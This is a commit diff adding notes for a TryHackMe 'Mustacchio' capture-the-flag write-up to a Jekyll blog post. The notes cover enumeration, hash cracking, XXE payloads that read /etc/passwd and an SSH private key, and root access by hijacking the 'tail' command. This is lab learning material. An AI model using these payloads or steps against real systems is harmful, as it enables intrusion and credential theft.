

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-10-10-mustacchio.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-10-10-mustacchio.md

```diff
--- a/_posts/2025-10-10-mustacchio.md
+++ b/_posts/2025-10-10-mustacchio.md
@@ -9,3 +9,139 @@
 # Mr. Robot
 -TRYHACKME CTF WRITEUP-
 [Link To CTF](https://tryhackme.com/room/mrrobot)
+
+
+
+mustaccio
+
+
+nmap shows 80 and 22 open
+
+
+webpage shows not much - lot of placeholder pages
+
+
+dirb shows
+
+/robots.txt and /custom
+
+
+/robots.txt shows nothing
+
+/custom/js -> shows users backup file
+
+We will use strings to read the file
+strings shows:
+
+
+Note:
+The cat command may not work as expected for a .bak file primarily because .bak files are often binary files, not plain text files. The cat command is designed to print the raw contents of a file to the terminal, which works well for human-readable text but produces gibberish for binary data
+
+Can use online cracker or johntheripper to crack hash
+
+
+bulldog19
+
+ssh into machine as admin - didn't work
+ssh with -i <password file> - didn't work
+no other directories
+no /admin or /logn
+
+
+nmap -p- shows higher port open: 8765
+
+navigating here shows admin panel login page
+
+
+logging in we see a message board
+putting in random text gives un an error
+
+
+Sendign another request and capturing in burp
+looking at the response we can see:
+1. username: Barry
+2. ssh is allowed with the correct key
+3. there is a directory /auth/dontforget.bak
+
+This shows us the xml format we will need to use
+
+
+https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
+
+We will modify and test the basic blind XXE vulnerability:
+
+----------------------
+
+<?xml version="1.0" encoding="UTF-8"?>
+
+<comment>
+  <name>10DNC</name>
+  <author>10DNC</author>
+  <com>hacked</com>
+</comment>
+
+-----------------------
+
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
+<comment>
+  <name>10DNC</name>
+  <author>10DNC</author>
+  <com>&test;</com>
+</comment>
+
+
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
+<comment>
+  <name>10DNC</name>
+  <author>10DNC</author>
+  <com>&test;</com>
+</comment>
+
+-----------------
+
+get id_rsa key
+save to text file
+> nano id_rsa
+
+lower permissions --
+
+> chmod 600 id_rsa
+
+use sshjohn to create hash
+
+> ssh2john id_rsa > hash
+
+use john to crack hash
+
+> john -w=/usr/share/wordlists/rockyou.txt mustacchio_hash
+
+login with ssh
+
+> ssh -i id_rsa barry@*.*.*.*
+> uriel james
+
+
+get user flag !!!!
+
+
+priv esc
+
+we see another user with an elf file
+
+running strings we see that its calling another file using tail
+
+We dont have permission to access to this file
+
+
+Lets hijack the "tail" command
+
+
+go into /tmp
+echo "/bin/bash" > tail
+run the live_log:
+/home/joe/live_log
+
+get root
+read root flag
```
